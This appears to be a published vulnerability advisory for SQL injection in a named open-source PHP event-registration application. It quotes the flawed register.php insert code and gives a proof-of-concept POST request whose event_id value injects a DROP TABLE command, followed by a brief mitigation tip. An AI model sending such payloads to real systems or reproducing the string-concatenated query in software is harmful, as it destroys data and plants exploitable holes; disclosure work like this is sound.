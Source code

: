 ## Exploit Title: Event Management - SQL Injection
## Application: Event Management
## Date: 19.02.2024
## Bugs: SQL Injection 
## Exploit Author: SoSPiro
## Vendor Homepage: https://github.com/PuneethReddyHC
## Software Link: https://github.com/PuneethReddyHC/event-management
## Version:1.0
## Attack Type: Remote
## Tested on: Windows 10 64 bit Wampserver 


# About project:

helps to register an users for on events conducted in college fests with simple logic with secured way



## Vulnerability Details:

- **Application Name**: Event Management
- **Software Link**: [Download Link](https://github.com/PuneethReddyHC/event-management)
- **Vendor Homepage**: [Vendor Homepage](https://github.com/PuneethReddyHC)



# Vulnerable code section:

# https://github.com/PuneethReddyHC/event-management/blob/master/backend/register.php#L64

<?php


// ... (other code)

if(empty($full_name)  || empty($email)  || empty($mobile)) {
    // Error messages and actions for incomplete data
} else {
    if(!preg_match($name,$full_name)){
        // Error messages and actions for invalid full name
    }

    // Additional regex checks for email and mobile format

    // Verifying mobile number length
    if(!(strlen($mobile) == 10)){
        // Error message and action for invalid mobile number length
    }

    // Database insertion operation
    $sql = "INSERT INTO `participants` 
            (`p_id`,`event_id`, `fullname`, `email`, 
             `mobile`,  `college`, `branch`) 
            VALUES (NULL,'$event_id', '$full_name',  '$email', 
             '$mobile', '$college', '$branch')";
            
    if(mysqli_query($con,$sql)){
        // Successful registration message
        echo "register_success";
        echo "<script> location.href='index.php'; </script>";
        exit;
    }
}

// ... (other code)
?>



# Vulnerability Description:

The code in register.php is vulnerable to SQL injection, allowing an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database. Additionally, the code lacks proper input validation and sanitization, making it susceptible to various forms of attacks such as cross-site scripting (XSS) and potential security risks.



# Proof of Concept (PoC):

SQL Injection:

The vulnerability can be exploited by an attacker by manipulating the input parameters. For example, the event_id parameter is directly used in the SQL query without proper validation or parameterization:

An attacker can manipulate the event_id parameter in the HTTP request to inject malicious SQL code.

PoC:


POST /event-management-master/backend/register.php HTTP/1.1
Host: localhost

event_id=1'; DROP TABLE participants; --

This could result in a SQL query like:

INSERT INTO `participants` (`p_id`,`event_id`, `fullname`, `email`, `mobile`,  `college`, `branch`) 
VALUES (NULL,'1'; DROP TABLE participants; --', 'test', 'test@gmail.com', '0555555555', 'asd', 'qwe')

To mitigate this, use prepared statements or parameterized queries to ensure proper sanitization of user inputs.

